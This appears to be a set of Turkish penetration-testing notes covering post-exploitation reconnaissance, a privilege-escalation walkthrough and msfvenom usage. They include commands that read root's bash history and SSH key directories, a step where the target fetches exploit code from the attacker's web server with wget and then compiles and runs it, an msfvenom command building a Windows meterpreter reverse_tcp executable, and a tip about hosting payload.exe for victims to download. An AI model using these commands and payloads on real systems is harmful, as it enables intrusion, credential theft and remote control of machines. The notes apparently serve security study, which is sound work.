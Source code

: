     => cat /root/.bash_history
    
    => uname -a (İşletim sistemini görüntüler, kullanılan işletim sistemine ait bir exploit olabilir.)
    
    => id (kim olduğumuzu ve hangi yetkilere sahip olduğumuzu gösterir)
    
    => /home/user/.ssh (ssh key'lerinin bulunduğu dizin)
    
    => ssh osman@192.168.99.100 (192.168.99.100 adresine ssh isteği yollar)
    
    => crontab -l (zamanlanmış görevleri listeler. sistemde backdoor bırakmak için kullanılabilir)
    
    => w (sistemle erişim halinde olan kullanıcıları listeler)    
    
**- Yetki yükseltme saldırısı:**

  **- Saldırgan:**
  
    =>(Desktop) python -m SimpleHTTPServer 8989 (8989 portumuzda bir web server ayağa kaldırıyoruz)
    
  **- Hedef:**
  
    => cd /tmp
    
    => wget http://192.168.0.24:8989/local.c
    
    => gcc local.c -o exploit
    
    => chmod +x exploit
    
    => ./exploit
    
    # id
    
## MSFVenom

    => msfvenom -l (listeleme)

  **- msfvenom ile exe dosyası oluşturma:** 

    => msfvenom -p windows/meterpreter/reverse_tcp LHOST 192.168.0.10 LPORT=3216 -f exe -o venom.exe
    
###### Notlar

  * Payload'dan çıkıp, tekrar exploit ettiğimiz zaman makine crash olabilir ve payload bu sefer düzgün çalışmayabilir. Makine reset attığında tekrar çalışır.

  * Metasploit konsolu aynı zamanda terminal'de desteklenen komutları da çalıştırır. (Örnek: ls, pwd, ifconfig vb...)
  
  * Sömürdüğümüz process'in sahibinin yetki seviyesine sahip oluruz. Bizden düşük yetkide bir işleme geçiş yapabiliriz ancak bizden yüksek yetkide bir process'e geçiş yapamayız. Bizden düşük yetkide bir işleme eğer Admin yetkisinden geçersek, admin yetkisine bir daha geri dönemeyebiliriz.

  * DOS'a sebebiyet veren modüller auxiliary dizininde yer alır.
  
  * payload.exe bir web sitesine yüklenir. Hedef siteye girip payload.exe'yi indirip çalıştırırsa yine exploit ile elde edeceğimiz etkiyi elde ederiz. 
  
  * Post-exploitation süreci hedefe sızdıktan sonra yapılacak her şeyi kapsar.
  